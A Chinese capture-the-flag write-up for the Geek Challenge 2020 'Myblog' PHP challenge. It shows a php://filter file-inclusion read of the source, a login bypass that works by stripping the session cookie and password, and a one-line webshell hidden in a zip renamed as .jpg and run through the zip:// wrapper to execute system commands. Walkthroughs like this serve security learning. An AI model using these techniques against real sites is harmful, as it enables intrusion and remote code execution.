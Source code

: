 # \[极客大挑战 2020]Roamphp2-Myblog

## \[极客大挑战 2020]Roamphp2-Myblog

## 考点

* PHP session登录逻辑漏洞
* 文件上传
* 文件上传+zip伪协议getshell

## wp

链接像文件包含

`http://caac6260-fed6-4ec8-9774-2bd683f115f2.node4.buuoj.cn:81/index.php?page=home`

`http://caac6260-fed6-4ec8-9774-2bd683f115f2.node4.buuoj.cn:81/index.php?page=php://filter/read=convert.base64-encode/resource=home`

可以得到源码，只能读`login.php`，`home.php`，`secret.php`和`admin/user.php`

home.php全是HTML，只剩下登录的逻辑了，代码比较少，简化一下如下

```php
<?php
// login.php
$secret_seed = mt_rand();
mt_srand($secret_seed);
$_SESSION['password'] = mt_rand();

// admin/user.php
error_reporting(0);
session_start();
$logined = false;
if (isset($_POST['username']) and isset($_POST['password'])){
	if ($_POST['username'] === "Longlone" and $_POST['password'] == $_SESSION['password']){  // No one knows my password, including myself
		$logined = true;
		$_SESSION['status'] = $logined;
	}
}
if ($logined === false && !isset($_SESSION['status']) || $_SESSION['status'] !== true){
	die();
}
?>
```

从login.php登录，POST数据到admin/user.php进行校验。<mark style="color:blue;">在校验时是比较输入的password与session中存储的password是否一致，但是如果没有sessionid，那么</mark><mark style="color:blue;">`$_SESSION['password']`</mark><mark style="color:blue;">的结果就是</mark><mark style="color:blue;">`NULL`</mark><mark style="color:blue;">，登录的时候密码不填就可以登录了。</mark>

burp抓包把Cookie和password的值删掉，在Forward即可

![](<../../.gitbook/assets/image (33).png>)

登录之后就是文件上传

{% code title="admin/user.php" %}
```php
<?php
if (isset($_FILES['Files']) and $_SESSION['status'] === true) {
    $tmp_file = $_FILES['Files']['name'];
    $tmp_path = $_FILES['Files']['tmp_name'];
    if (($extension = pathinfo($tmp_file) ['extension']) != "") {
        $allows = array('gif', 'jpeg', 'jpg', 'png');
        if (in_array($extension, $allows, true) and in_array($_FILES['Files']['type'], array_map(function ($ext) {
            return 'image/' . $ext;
        }, $allows), true)) {
            $upload_name = sha1(md5(uniqid(microtime(true), true))) . '.' . $extension;
            move_uploaded_file($tmp_path, "assets/img/upload/" . $upload_name);
            echo "<script>alert('Update image -> assets/img/upload/${upload_name}') </script>";
        } else {
            echo "<script>alert('Update illegal! Only allows like \'gif\', \'jpeg\', \'jpg\', \'png\' ') </script>";
        }
    }
}
?>
```
{% endcode %}

前有文件包含，但是只能包含`.php`，后有文件上传，但是只能上传图片。这样就只剩下伪协议了，phar和zip

写一个一句话木马123.php，然后压缩成123.zip，改名为123.jpg，再上传，得到路径`assets/img/upload/d522c95c5a225a8e313f30883076d6e34688ec6d.jpg`

然后使用zip://伪协议`?page=zip://assets/img/upload/d522c95c5a225a8e313f30883076d6e34688ec6d.jpg%23123`

POST `cmd=system("cat /flllaggggggggg_isssssssssss_heeeeeeeeeere");`

